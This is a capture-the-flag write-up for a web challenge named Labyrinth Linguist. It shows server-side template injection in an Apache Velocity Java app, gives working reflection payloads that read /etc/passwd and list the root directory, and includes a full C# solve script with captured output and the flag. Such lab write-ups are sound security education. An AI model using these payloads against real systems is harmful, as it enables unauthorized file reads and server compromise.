




# Labyrinth Linguist

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.
>
> Docker:
> - `94.237.49.147:41947`
> 
> Files:
> - `web_labyrinth_linguist.zip`

**Writeup by:** Hein Andre Grønnestad


- [Labyrinth Linguist](#labyrinth-linguist)
	- [Web Site](#web-site)
	- [Analysing Application Files](#analysing-application-files)
	- [Templating Engine](#templating-engine)
	- [Can We Manipulate The Template?](#can-we-manipulate-the-template)
	- [Reflection](#reflection)
		- [Proof of Concept](#proof-of-concept)
	- [Flag File Name](#flag-file-name)
	- [Final Solve Script](#final-solve-script)
		- [Results](#results)
	- [Flag](#flag)


## Web Site

We are presented with a web page that allows us to translate English to Voxalith. We can enter some text and click "Submit" to get the translation.



The translated text is then displayed on the page with a weird font. We can see the text in the HTML source though.

```html
<h2 class="fire">Example text</h2>
```

Entering `test` gives us `test` back, so it seems like the translation is just a simple echo of the input.




## Analysing Application Files

The provided zip file contains a Java application with a `Dockerfile` and an `entrypoint.sh` script. The application is a web server that listens on port `8080` and serves a web page with a form that allows us to translate English to Voxalith.

Looking at `Main.java` we can see that the application is using the `org.apache.velocity` library to render the web page.

My first thought was to try to inject some code into the form to see if we could get some sort of code execution through the templating engine.

In `Main.java` we can see the following code:

```java
VelocityContext context = new VelocityContext();
context.put("name", "World");
```

Seems like a variable `name` is being made available in some kind of templating context.


## Templating Engine

It seems the application is using the Apache Velocity templating engine. This is a Java-based template engine that provides a template language to reference objects defined

https://velocity.apache.org/engine/1.7/user-guide.html

Entering `$name` gives us `World`, so we can see that the `name` variable is being made available to the template.




## Can We Manipulate The Template?

Entering `$name.length()` gives us `5`, so we have some sort of code execution.




## Reflection

After some research, I found that we can use reflection to call methods on objects in the templating engine. This is a very powerful feature and can be used to call methods on objects that are not directly available in the template context.

We can get a reference to the `Main` class from `$name.getClass().forName('Main')` and call the `readFileToString` method with the path to the file we want to read. We can then use the `#set` directive to set the result to a variable and then print it out.

### Proof of Concept

Let's use a C# script to send a POST request to the server with the following payload:

```c#
var c = new HttpClient();

var text = @"
	#set($class = $name.getClass().forName('Main'))
	#set($method = $class.getDeclaredMethod('readFileToString', $name.class, $name.class))
	#set($result = $method.invoke($null, '/etc/passwd', ''))
	$result
";

var content = new FormUrlEncodedContent(new[]
{
	new KeyValuePair<string, string>("text", text)
});

var response = await c.PostAsync("http://94.237.49.147:41947/", content);

var responseString = await response.Content.ReadAsStringAsync();
responseString.Dump();
```

We get the following response:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Labyrinth Linguist 🌐</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

</h2>
</body>
</html>
```

We can see that we have successfully read the `/etc/passwd` file.


## Flag File Name

When we look at the `Dockerfile` and `entrypoint.sh`, we can see the following:

```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

This is just evil. We have the ability to read files, but the file name is randomized, so we can't just read `/flag.txt`. We need to find a way to get the file name.

Luckily we can use the same method as before. We can use reflection to get a reference to the `File` class and then call the `listFiles` method to get a list of files in the root directory.

Payload:

```velocity
#set($fileClass = $name.getClass().forName('java.io.File'))
#set($fileConstructor = $fileClass.getConstructor($name.class))
#set($rootDir = $fileConstructor.newInstance('/'))
#set($listFilesMethod = $fileClass.getMethod('listFiles'))
#set($filesArray = $listFilesMethod.invoke($rootDir))

#foreach($file in $filesArray)
    #set($fileName = $file.getName())
    $fileName
#end
```


## Final Solve Script

Full LINQPad script: [solve.linq](solve.linq)

```c#
const string URL = "http://94.237.49.147:41947/";

async Task Main()
{
	"> Getting flag file name...".Dump();
	var flagFileName = await FindFlagFileName();
	flagFileName.Dump();
	"".Dump();
	
	"> Getting flag contents...".Dump();
	var flag = await ReadFile($"/{flagFileName}");
	flag.Dump();
	"".Dump();

	"> Getting /etc/passwd for fun...".Dump();
	var etcPasswd = await ReadFile("/etc/passwd");
	etcPasswd.Dump();
	"".Dump();
}

async Task<string> FindFlagFileName()
{
	var findFlagFilePayload = $@"
		#set($fileClass = $name.getClass().forName('java.io.File'))
		#set($fileConstructor = $fileClass.getConstructor($name.class))
		#set($rootDir = $fileConstructor.newInstance('/'))
		#set($listFilesMethod = $fileClass.getMethod('listFiles'))
		#set($filesArray = $listFilesMethod.invoke($rootDir))
		
		#foreach($file in $filesArray)
	    	#set($fileName = $file.getName())
	    	$fileName
		#end
	";

	var content = new FormUrlEncodedContent(new[]
	{
		new KeyValuePair<string, string>("text", findFlagFilePayload)
		});

	var c = new HttpClient();
	var response = await c.PostAsync(URL, content);

	var responseString = await response.Content.ReadAsStringAsync();
	var lines = responseString.Split('\n');
	var flagFileName = lines.FirstOrDefault(x => x.Contains("flag"));
	return flagFileName.Trim();
}

async Task<string> ReadFile(string fileName)
{
	var readFilePayload = $@"
		#set($class = $name.getClass().forName('Main'))
		#set($method = $class.getDeclaredMethod('readFileToString', $name.class, $name.class))
		#set($result = $method.invoke($null, '{fileName}', ''))
		$result
	";

	var content = new FormUrlEncodedContent(new[]
	{
		new KeyValuePair<string, string>("text", readFilePayload)
		});

	var c = new HttpClient();
	var response = await c.PostAsync(URL, content);

	var responseString = await response.Content.ReadAsStringAsync();
	return StripHtml(responseString);
}

string StripHtml(string text) {
	var startIdentifier = "<h2 class=\"fire\">";
	var start = text.IndexOf(startIdentifier) + startIdentifier.Length;
	var end = text.IndexOf("</h2>");
	return text.Substring(start, end - start).Trim();
}
```


### Results

Great success! 🚩🎉

```
> Getting flag file name...
flag90ce00fa09.txt

> Getting flag contents...
HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}

> Getting /etc/passwd for fun...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```


## Flag

```
HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}
```
